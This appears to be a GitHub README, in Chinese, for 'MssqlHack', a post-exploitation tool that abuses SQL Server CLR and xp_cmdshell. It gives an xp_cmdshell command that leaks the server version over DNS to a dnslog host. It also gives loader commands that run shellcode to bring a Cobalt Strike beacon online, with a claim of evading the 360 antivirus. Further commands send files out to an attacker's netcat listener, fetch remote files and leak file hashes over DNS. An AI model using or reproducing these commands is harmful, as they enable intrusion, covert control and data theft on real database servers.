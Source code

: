 # MssqlHack
sqlserver通过clr执行一些基础操作

**如果能执行xp_cmdshell可通过一下sql获取版本。**
```
DECLARE @info varchar(1024);SELECT @info='ping '+(SELECT SUBSTRING((select @@version),22,4))+'.d0b4016a.dnslog.cn';EXEC master..xp_cmdshell @info;
```
## 功能：
一、shellcode loader直接上线cs(可bypass360)

**2008和2012的teamserver不能使用profile，不然会导致sqlserver挂掉。**

**2005需要重启服务所以不能用，大于等于2016内存分配有问题目前也无法使用，所以只有2008，2012，2014能用**

**最好使用cs4.5，生成shellcode的时候选择退出方式为线程，不然执行exit的时候会导致sqlserver进程退出，导致服务宕机。**
```
exec loader'0','hex shellcode','',''
```
二、 上传文件

**服务器使用nc接收文件**
```
nc -lvvp 8888 >111.izp
```
```
exec loader'1','ip','8888','c:\111.zip'
```
三、下载文件
```
exec loader'3','https://url','c:\users\public\111.zip',''
```
四、计算文件md5

**通过dnslog获取文件md5**
```
exec loader'2','1','dnlsog.cn','c:\users\public\111.zip'
```
**通过将文件md5写入到文件中**
```
exec loader'2','2','c:\users\public\111.txt','c:\users\public\111.zip'
```
## 安装
一句一句执行install.sql
